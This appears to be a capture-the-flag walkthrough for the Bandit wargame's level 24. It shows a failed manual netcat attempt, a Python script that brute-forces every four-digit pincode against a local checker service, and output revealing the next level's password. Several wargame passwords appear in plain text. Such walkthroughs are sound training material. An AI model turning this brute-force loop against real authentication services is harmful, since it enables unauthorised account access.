 ```shell
Escape character is '^]'.
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0000
Wrong! Please enter the correct pincode. Try again.
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 5562
Wrong! Please enter the correct pincode. Try again.
Timeout. Exiting.
Connection closed by foreign host.
```

```python
  1 #!/usr/bin/env python3                   
  2 #coding: utf-8                           
  3                                          
  4 import socket                            
  5 import sys                               
  6                                          
  7 host = 'localhost'                       
  8 port = 30002                             
  9                                          
 10 socket=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
 11 socket.connect((host,port))              
 12 start_msg=socket.recv(1024)              
 13                                          
 14 print(start_msg)                         
 15 pwd="UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ"   
 16                                          
 17 for a in range(0,10) :                   
 18     for b in range(0,10) :               
 19         for c in range(0,10) :           
 20             for d in range(0,10) :       
 21                 pincode=str(a)+str(b)+str(c)+str(d)+'\n'
 22                 msg=pwd+' '+pincode      
 23                 socket.sendall(msg.encode('utf-8'))
 24                 recv=socket.recv(1024)   
 25                 recv_msg=recv.decode('utf-8')
 26                 if "Wrong!" not in recv_msg :
 27                     print(recv_msg)
 28                     socket.close()       
 29                     sys.exit(1)          
 30                 else :                   
 31                     print("False",pincode)
```

```shell
bandit24@bandit:/tmp/lv24$ python3 brute.py
b'I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, 
separated by a space.\n'
False 0000

False 0001

False 0002

[redacted]

False 2586

False 2587
Correct!
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG
```
